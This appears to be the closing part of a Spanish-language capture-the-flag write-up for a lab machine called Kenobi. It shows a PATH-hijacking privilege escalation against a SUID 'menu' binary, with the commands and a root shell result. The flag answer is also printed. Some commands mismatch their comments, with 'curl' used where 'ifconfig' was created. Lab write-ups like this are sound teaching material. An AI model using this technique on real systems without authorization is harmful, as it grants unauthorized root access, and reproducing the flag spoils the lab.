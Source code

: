 Run the binary, how many options appear? **3**

Teniendo en cuenta la vulnerabilidad de SUID y viendo que lo que está ejecutando son comandos de sistema. Podemos abusar de la ruta en la que va a buscar esos binarios a traves de PATH. Asi haremos que vaya a buscar algun binario a una ruta X (tmp en este caso) y si lo encuentra, lo ejecute primero en el contexto SUID de root.

```
echo /bin/sh > ifconfig # creamos un binario curl que solo ejecute una shell
chmod 777 ifconfig # le damos permisos para todo 
mv curl /tmp # lo movemos a /tmp
export PATH=/tmp:$PATH # explotamos path para que vaya a buscar el binario a /tmp primero
```

```
kenobi@kenobi:~$ /usr/bin/menu 

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :3
# whoami
root
```

con eso escalamos a root


What is the root flag (/root/root.txt)? **177b3cd8562289f37382721c28381f02**

---
Happy exploiting - Zpx